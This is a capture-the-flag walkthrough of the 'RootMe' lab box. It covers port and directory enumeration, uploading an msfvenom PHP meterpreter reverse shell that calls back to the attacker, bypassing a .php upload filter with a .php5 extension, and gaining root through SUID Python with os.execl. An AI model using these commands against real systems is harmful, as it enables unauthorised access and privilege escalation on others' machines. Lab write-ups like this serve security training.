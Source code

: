 # RootMe

## Reconnaissance
Let's start the enumeration with scanning the ports, which we can do with ```nmap```. This can be done with the command ```nmap -A -T4 <ip>```.

<insert image>

As we can see there are two ports open, port 22 for ssh and port 80 for http. The SSH version running is OpenSSH 7.6p1 and the server is an Apache server running on ubuntu. For further enumeration we can use ```ffuf``` with the command ```ffuf -w /usr/share/wordlists/dirb/big.txt -u "http://<ip>/FUZZ"```.

<insert image>

The output shows us that that there are two hidden directories, panel and uploads. When entering <ip>/panel we can see that there is an upload form.

<insert image>

## Getting a shell
Lets see if we can upload a reverse shell through it. We can create an reverse shell with the command ``` msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php```. When trying to upload our reverse shell we can see that there is an filter in place that does not accept ```.php``` files. We can try to get around the filter by changing the extension to ```.php5```. That worked! Now we can go to <ip>/uploads and run the file while we try to catch the reverse shell. We can catch the reverse shell with metasploit (msfconsole). I used the payload ```php/meterpreter_reverse_tcp```. Set the options LHOST <your ip> and LPORT <choosen port>.

<insert image>

## Privilege escalation
Now that we have gotten onto the computer we can start with the privilege escalation, we can start the enumeration with ```find / -perm -u=s -type f 2>/dev/null``` which will find the executable files with the SUID bit set.

<insert image>

As we can see /usr/bin/python has the SUID bit set, we can use this to escalate our privileges with the command ```/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'```

<insert images>

And there we have it!